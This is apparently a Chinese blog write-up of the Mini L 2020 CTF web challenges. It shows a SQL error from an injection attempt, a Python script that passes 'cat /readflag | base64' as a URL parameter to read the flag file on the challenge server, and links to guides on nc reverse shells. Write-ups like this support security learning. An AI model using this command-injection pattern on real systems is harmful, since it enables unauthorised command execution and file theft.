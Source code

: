 ```yaml
---
title: 【Mini L 2020 题解】日常玩耍
categories: 
- 计算机科学
- 网络安全
- CTF
- MiniL
tags: 
- CTF
- Web
- Python
---
```


# Mini L 2020 题解

在MiniL2021之前玩耍一下

<!--more-->

## Web

### id_wife

![image-20210429221306970](http://framist-bucket-openread.oss-cn-shanghai.aliyuncs.com/img/2023/08/15/20230815210511.png)

随便敲字符：


```
error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use  near '''')' at line 1`
```
啊啊啊发现自己的SQL注入方面其实根本就没学过，在网上也没有搜到很好的教程。无效尝试许久之后忍不住翻了答案：

[Mini L CTF WriteUp By Int3rn3t_Expl0rer Team - Reverier's Blog (wootec.top)](https://www.wootec.top/2020/05/17/minil-ctf-wp/#Web)

### 签到题

```python
import requests
import base64
url = 'http://6c366814-f63f-4de8-954b-06ef78b851eb.archive.xdsec.chall.frankli.site/'

getdata = {'a' : 'cat /readflag | base64'}

req = requests.get(url= url , params=getdata)
# print(req.url)
# print(req.encoding)
out = req.text
out = out[:out.find('<code>')]
print(out)
with open('out','wb') as f:
    f.write(base64.b64decode(out))
```



[(2条消息) Windows/Linux 下nc 反弹shell_SoulCat-CSDN博客_nc反弹shell](https://blog.csdn.net/csacs/article/details/91440568)



[NC反弹shell的几种方法 - ctrl_TT豆 - 博客园 (cnblogs.com)](https://www.cnblogs.com/-chenxs/p/11748488.html)

[(2条消息) Linux反弹shell姿势总结_葵花与巷_的博客-CSDN博客](https://blog.csdn.net/qq_45924653/article/details/107445417)